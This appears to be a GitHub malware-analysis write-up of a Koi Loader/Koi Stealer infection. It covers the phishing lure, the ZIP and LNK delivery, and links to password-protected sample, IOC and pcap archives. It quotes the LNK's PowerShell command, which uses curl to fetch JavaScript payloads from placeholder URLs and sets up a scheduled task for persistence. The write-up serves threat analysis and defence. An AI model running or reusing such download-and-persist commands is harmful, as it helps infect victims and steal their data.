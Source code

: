 ## Oveerview

Date:2025-08-07

Attack : KOI Stealer

Koi Stealer is delivered via a shortcut file and uses PowerShell and scheduled tasks to maintain persistence and deliver further payloads. The attack relies on remote-hosted JS files, renaming tricks, and silent downloaders to bypass defenses and exfiltrate data via standard HTTP requests to a hardcoded C2 IP.

## Download the related files

`2025-07-08-IOCs-from-Koi-Loader-Koi-Stealer-infection.txt.zip`   
`2025-07-08-traffic-from-Koi-Loader-Koi-Stealer-infection.pcap.zip`  
`2025-07-08-malware-from-Koi-Loader-Koi-Stealer-infection.zip`   

use password `infected_20250807`

2025-07-08-IOCs-from-Koi-Loader-Koi-Stealer-infection.txt.zip

- 	Indicators of Compromise

2025-07-08-traffic-from-Koi-Loader-Koi-Stealer-infection.pcap.zip
 - Network capture showing C2 and dropper activity
   
2025-07-08-malware-from-Koi-Loader-Koi-Stealer-infection.zip
 - Malware binaries: Loader + Stealer

## Infection Flow 

<img width="1095" height="569" alt="image" src="https://github.com/user-attachments/assets/43924028-0b31-4f93-bcb4-bf697f6aa4aa" />


**Step 1**: Lure Link
Victim visits a Google Sites page disguised as a document or phone offer.

Clicks on a phishing download link pointing to a ZIP archive.

**Step 2**: ZIP File Execution
Victim downloads and extracts chase_28_06_25.zip.

ZIP contains chase_28_06_25.lnk (malicious Windows shortcut).

**Step 3**: LNK File Triggers PowerShell
.lnk runs the following:

`powershell.exe -comma $... = "...";
curl.exe -o tzldirf5ddw1aq.js <malicious_URL_1>;
curl.exe -o fci6u30bkw0w <malicious_URL_2>;
Move-Item fci6u30bkw0w 8t9fognkq.js;
schtasks /create /sc minute /tr $payload /tn 8t9fognkq;`

This Downloads two malicious JavaScript files and renames them

Creates a Scheduled Task to repeatedly execute the malware

